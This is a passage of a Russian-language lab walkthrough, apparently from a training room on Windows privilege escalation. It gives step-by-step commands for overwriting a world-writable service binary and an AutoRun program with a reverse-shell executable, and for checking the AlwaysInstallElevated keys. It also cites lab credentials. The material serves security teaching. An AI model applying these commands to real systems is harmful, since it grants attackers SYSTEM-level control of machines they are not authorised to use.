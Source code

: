 `sc qc filepermsvc`

Используя accesschk.exe, обратите внимание, что двоичный файл службы (BINARY_PATH_NAME) доступен для записи всем:

`C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"`

Скопируйте созданный вами исполняемый файл reverse.exe и замените им filepermservice.exe:

`copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y`

Запустите прослушиватель на Kali, а затем запустите службу, чтобы создать обратную оболочку, работающую с привилегиями SYSTEM:

`net start filepermsvc`

### Ответьте на вопросы ниже
Прочитайте и следуйте указаниям выше.
```commandline
Ответ не нужен
```

## Задание 7
Запросите реестр на наличие исполняемых файлов AutoRun:

`reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

Используя accesschk.exe, обратите внимание, что один из исполняемых файлов AutoRun доступен для записи всем:

`C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"`

Скопируйте созданный вами исполняемый файл reverse.exe и перезапишите им исполняемый файл AutoRun:

`copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y`

Запустите прослушиватель на Kali, а затем перезапустите Windows VM . Откройте новый сеанс RDP , чтобы запустить 
обратную оболочку, запущенную с правами администратора. Вам не нужно проходить аутентификацию, чтобы запустить ее, 
однако, если полезная нагрузка не срабатывает, войдите в систему как администратор (admin/password123), чтобы 
запустить ее. Обратите внимание, что в реальном мире вам придется ждать, пока администратор сам войдет в систему!

`rdesktop MACHINE_IP`

### Ответьте на вопросы ниже
Прочитайте и следуйте указаниям выше.
```commandline
Ответ не нужен
```

## Задание 8
Запросите реестр на наличие ключей AlwaysInstallElevated:
```commandline
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
